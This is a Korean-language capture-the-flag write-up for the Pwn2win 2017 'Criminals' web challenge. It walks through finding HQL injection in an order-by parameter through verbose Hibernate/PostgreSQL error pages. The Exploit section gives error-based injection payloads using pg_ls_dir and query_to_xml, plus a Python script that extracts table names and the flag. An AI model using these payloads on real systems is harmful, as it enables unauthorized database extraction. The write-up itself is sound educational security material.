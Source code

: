 # [WEB] Pwn2win CTF 2017 - Criminals

# Description

>  Criminals
>
>  Hey, Rebellious member, let’s hack this Bloodsuckers web app. I think they keep some secret.
>
>  <http://200.136.213.109/>
>
>  Automated tools are NOT required and NOT allowed.
>
>  Id: criminals

# Analysis

페이지에 접속하면 간단한 범죄자 검색(?) 사이트가 나온다.

해당 사이트에서 범죄자의 이름, 나이 그리고 죄명으로 검색하며, Order 항목을 통해 정렬이 가능하다.

이름, 나이, 죄명에는 취약점이 발생안하였으나, order 부분에 에러를 유발하는 임의의 쿼리를 삽입하면 에러문구를 확인할 수 있다.

*  Query : name=&age=&crime=&order=--%23&submit=

```html
<!DOCTYPE html><html><head><title>Apache Tomcat/8.0.47 - Error report</title><style type="text/css">H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}.line {height: 1px; background-color: #525D76; border: none;}</style> </head><body><h1>HTTP Status 500 - Request processing failed; nested exception is java.lang.IllegalArgumentException: org.hibernate.QueryException: unexpected char: '#' [SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by --#]</h1><div class="line"></div><p><b>type</b> Exception report</p><p><b>message</b> <u>Request processing failed; nested exception is java.lang.IllegalArgumentException: org.hibernate.QueryException: unexpected char: '#' [SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by --#]</u></p><p><b>description</b> <u>The server encountered an internal error that prevented it from fulfilling this request.</u></p><p><b>exception</b></p><pre>org.springframework.web.util.NestedServletException: Request processing failed; nested exception is java.lang.IllegalArgumentException: org.hibernate.QueryException: unexpected char: '#' [SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by --#]
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:973)
	org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:863)
	javax.servlet.http.HttpServlet.service(HttpServlet.java:648)
	org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:837)
	javax.servlet.http.HttpServlet.service(HttpServlet.java:729)
	org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
</pre><p><b>root cause</b></p><pre>java.lang.IllegalArgumentException: org.hibernate.QueryException: unexpected char: '#' [SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by --#]
	org.hibernate.jpa.spi.AbstractEntityManagerImpl.convert(AbstractEntityManagerImpl.java:1750)
	org.hibernate.jpa.spi.AbstractEntityManagerImpl.convert(AbstractEntityManagerImpl.java:1677)

<!-- 중략 -->

</pre><p><b>root cause</b></p><pre>org.hibernate.QueryException: unexpected char: '#' [SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by --#]
	org.hibernate.hql.internal.ast.QueryTranslatorImpl.doCompile(QueryTranslatorImpl.java:250)
	org.hibernate.hql.internal.ast.QueryTranslatorImpl.compile(QueryTranslatorImpl.java:158)
	org.hibernate.engine.query.spi.HQLQueryPlan.&lt;init&gt;(HQLQueryPlan.java:126)
	org.hibernate.engine.query.spi.HQLQueryPlan.&lt;init&gt;(HQLQueryPlan.java:88)
	org.hibernate.engine.query.spi.QueryPlanCache.getHQLQueryPlan(QueryPlanCache.java:190)

<!-- 이하 생략 -->
```

이 에러문구에서 우리는 2가지의 정보를 얻을 수 있다.

1. 쿼리문

SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by --#

2. Hibernate

>  참고 : https://docs.jboss.org/hibernate/orm/3.3/reference/ko-KR/html/queryhql.html

쿼리문을 보면 order by 구문 뒤에 공격을 해야 할 것으로 예상되고, Hibernate는 native SQL로써 실제로 처리하는 Database는 따로 존재한다.

다른 에러를 통해 Database를 뭘 사용하는지 찾아보자.

*  Query : name=&age=&crime=&order=1||1&submit=

```html
org.postgresql.util.PSQLException: ERROR: operator does not exist: integer || integer
  Hint: No operator matches the given name and argument type(s). You might need to add explicit type casts.
```

오 PSQL임을 확인하였다.

즉 Hibernate를 통해 Postgre SQL이랑 통신을 하는 페이지이며, order by 구문으로 HQL Injection가 가능하다.

# Exploit

## HQL Injeciton

SQL처리 중 에러가 발생하면 500 Error와 함께 에러 로그를 출력해 준다.

Postgre SQL의 pg_ls_dir() 함수를 이용해 Error Based SQLi공격을 진행하기로 하였다.

*  Query : name=&age=&crime=&submit&order=array_upper(xpath ('row', query_to_xml ('select pg_ls_dir((SELECT column_name||chr(58)||table_name FROM information_schema.columns c limit 1 offset 0))', true,  false,'')),1)
*  Result : secret:flag

>  문제를 풀 때는 offset 0부터 50까지의 테이블과 컬럼을 추출하였다.

flag 테이블에 secret 컬럼이 존재하는 것을 확인하였으니, 이제 secret의 내용을 읽어보자.

*  Query : name=&age=&crime=&submit&order=array_upper(xpath('row',query_to_xml('select pg_ls_dir((SELECT secret from flag))',true,false,'')),1)
*  Result : CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}

플래그를 얻었다.

아래는 문제풀 때 사용한 코드이다.

```python
import urllib2
import urllib

url = "http://200.136.213.109/"

def r(param):
    global url
    try:
        req = urllib2.Request(url,param)
        res = urllib2.urlopen(req)
        return res.read()
    except urllib2.HTTPError, e:
        if e.getcode() == 500:
            return e.read()

def p(data):
    return data.split('PSQLException:')[1].split('&quot;')[1].split('&quot;')[0]

def main():
    # Extract table and column name
    #for i in range(0,30):
    #    print p(r("name=&age=&crime=&submit&order=array_upper(xpath ('row', query_to_xml ('select pg_ls_dir((SELECT column_name||chr(58)||table_name FROM information_schema.columns c limit 1 offset %d))', true,  false,'')),1)"%(i)))

    # Extract flag
    print p(r("name=&age=&crime=&submit&order=array_upper(xpath('row',query_to_xml('select pg_ls_dir((SELECT secret from flag))',true,false,'')),1)"))


if __name__=='__main__':
    main()
```



**CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}**

